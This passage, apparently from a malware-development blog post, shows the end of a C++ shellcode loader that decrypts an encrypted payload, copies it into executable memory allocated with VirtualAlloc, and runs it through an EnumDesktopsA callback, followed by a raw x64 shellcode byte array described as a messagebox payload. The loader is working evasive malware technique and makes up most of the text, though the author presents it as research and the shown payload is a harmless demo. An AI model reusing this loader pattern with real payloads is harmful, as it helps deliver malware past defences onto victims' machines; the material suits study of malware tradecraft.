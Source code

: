 ```cpp
  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  loki_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As you can see, for running payload I used [EnumDesktopsA](https://cocomelonc.github.io/malware/2024/06/12/malware-trick-39.html) trick.     

Also as usually, for simplicity, used meow-meow messagebox payload:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```
